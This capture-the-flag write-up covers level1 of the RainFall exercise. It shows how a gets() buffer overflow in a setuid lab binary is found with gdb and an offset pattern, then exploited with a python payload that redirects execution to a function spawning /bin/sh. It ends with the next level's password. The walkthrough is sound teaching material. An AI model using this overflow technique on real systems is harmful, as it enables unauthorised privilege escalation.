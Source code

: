 level1
======

*	We spawn with a [level1](source/level1) executable
	```console
	level1@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
	level1@RainFall:~$ ./level1
	█
	```
	`./level1` is execute as `level2` user
*	It is reading on `STDIN`
*	From now on I will be using [Ghidra](https://ghidra-sre.org/) as a decompiler even tho I made a small script to disassemble our programs
*	Let's take a look at the [code](./source/level1.c)
*	The `main` declares a variable of `76` bytes on the stack and executes `gets()` on it
*	We also have another function called `run()` (which is never called btw) :
	-	execute `fwrite()` with and string on STDOUT
	-	calls `system()` to execute `/bin/sh`
*	We want to try a [Buffer Overflow Attack](https://www.imperva.com/learn/application-security/buffer-overflow/) to access the function to execute `/bin/sh` as level2
*	We can use a generated string from this [website](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) to make the offset easier to spot
	```gdb
	(gdb) r
	Starting program: /home/user/level1/level1 
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7A

	Program received signal SIGSEGV, Segmentation fault.
	0x63413563 in ?? ()
	(gdb) 
	```
	It makes it easier to spot since when we take a look at `$eip`, we can check the corresponding 4 bytes `0x63413563` since every 4 bytes is different in this string. we confirm that the offset is at 76 bytes
*	Next step is to retrieve the address of `run`
	```gdb
	(gdb) p run
	$1 = {<text variable, no debug info>} 0x8048444 <run>
	```
	We need not to forget the little endian rule when writting the payload -> `\x44\x84\x04\x08`
*	We have everything we need, here is the payload :
	```console
	level1@RainFall:~$ python -c 'print "a"*76  + "\x44\x84\x04\x08"' > /tmp/payload
	```
	Be carefull if you are using perl, python is adding a newline at the end but with `perl -e` you have to add it at the end or it won't be clean
*	Now for the execution we have to make sure to use `cat payload -` so that it keeps listening on STDIN instead of just exiting after the segfault
	```console
	level1@RainFall:~$ cat /tmp/payload - | ./level1 
	Good... Wait what?
	whoami
	level2
	cat /home/user/level2/.pass
	53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
	```